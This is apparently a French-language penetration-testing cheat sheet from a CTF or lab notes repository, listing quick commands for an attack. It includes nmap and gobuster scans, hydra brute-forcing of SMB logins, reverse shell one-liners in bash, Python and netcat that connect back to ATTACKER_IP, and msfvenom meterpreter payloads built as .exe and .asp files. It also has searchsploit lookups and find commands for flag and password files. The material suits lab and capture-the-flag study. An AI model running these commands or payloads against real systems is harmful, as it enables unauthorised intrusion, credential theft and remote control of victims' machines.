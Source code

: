 # ⚡ Commandes Rapides

[← Retour à la table des matières](../README.md)

## Scan initial rapide
```bash
# Host discovery
nmap -sn target.0/24

# Port scan rapide
nmap -F targetIP

# Scan complet
nmap -sC -sV -O targetIP
```

## Énumération express par service
```bash
# HTTP
gobuster dir -u http://targetIP -w /usr/share/wordlists/dirb/common.txt

# SMB - Méthodologie complète → [📖 Guide Hydra](../06-tools/hydra.md) [📖 Guide CrackMapExec](../06-tools/crackmapexec.md) [📖 Guide SMBClient](../06-tools/smbclient.md)
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://targetIP
crackmapexec smb targetIP -u username -p password --shares
smbclient //targetIP/C$ -U administrator

# SMB - Énumération basique → [📖 Guide SMBClient](../06-tools/smbclient.md)
enum4linux -a targetIP
smbclient -L targetIP -N

# FTP
ftp targetIP  # anonymous:anonymous

# SSH
ssh targetIP  # Tester comptes par défaut
```

## Reverse shells rapides
```bash
# Bash
/bin/bash -c 'bash -i>&/dev/tcp/ATTACKER_IP/PORT 0>&1'

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Netcat
nc -e /bin/sh ATTACKER_IP PORT
```

## Listener
```bash
nc -nvlp PORT
```

## Recherche d'exploits
```bash
# Searchsploit pour trouver des exploits
searchsploit service_name
searchsploit hfs
searchsploit "rejetto"
```

## Commandes Windows utiles

### Recherche de flags
```cmd
# Liste des répertoires
dir C:\

# Lecture d'un fichier
type C:\path\to\flag.txt

# Recherche récursive
dir C:\ /s /b | findstr flag
```

### Connexion RDP depuis Linux
```bash
xfreerdp /u:username /p:password /v:targetIP:targetPort
```

## Génération rapide de payloads → [📖 Guide MSFVenom](../06-tools/msfvenom.md)
```bash
# Meterpreter Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f exe > shell.exe

# ASP pour WebDAV
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f asp > shell.asp
```

## Recherche d'exploits → [📖 Guide Searchsploit](../06-tools/searchsploit.md)
```bash
# Searchsploit pour trouver des exploits
searchsploit service_name
searchsploit hfs
searchsploit "rejetto"

# Vérifier les versions après énumération
searchsploit "apache 2.4.7"
```

## Recherche de fichiers
```bash
# Recherche de fichiers par nom (Linux)
find / -name "*flag*" 2>/dev/null
find / -name "*password*" 2>/dev/null

# Recherche de fichiers spécifiques
find / -name "*FlageSearch*" 2>/dev/null
```